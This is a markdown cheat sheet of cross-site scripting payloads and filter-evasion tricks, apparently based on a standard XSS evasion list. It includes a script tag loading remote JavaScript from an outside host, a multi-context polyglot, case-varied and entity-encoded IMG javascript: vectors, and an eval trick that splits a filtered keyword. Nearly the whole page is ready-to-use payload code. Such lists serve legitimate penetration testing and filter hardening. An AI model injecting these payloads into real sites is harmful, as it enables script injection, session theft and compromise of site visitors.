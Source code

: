 
## strips out word `onReadyStateChange`

```js
// break the code
eval('xmlhttp.onread' + 'yStateChange = callback');
```


## Basic XSS Test Without Filter Evasion
- normal XSS JavaScript injection

```js
<SCRIPT SRC=http://xss.rocks/xss.js></SCRIPT>
```

## XSS Locator (Polygot)
The following is a “polygot test XSS payload.” This test will execute in multiple contexts including html, script string, js and url.

```js
javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>
```

---

## Image XSS Using the JavaScript Directive
Image XSS using the JavaScript directive (IE7.0 doesn’t support the JavaScript directive in context of an image, but it does in other contexts, but the following show the principles that would work in other tags as well:

```js
<IMG SRC="javascript:alert('XSS');">
```

## No Quotes and no Semicolon

```js
<IMG SRC=javascript:alert('XSS')>
```

## Case Insensitive XSS Attack Vector
```js
<IMG SRC=JaVaScRiPt:alert('XSS')>
```

---

## HTML Entities
The semicolons are required for this to work:
```js
<IMG SRC=javascript:alert(&quot;XSS&quot;)>
```
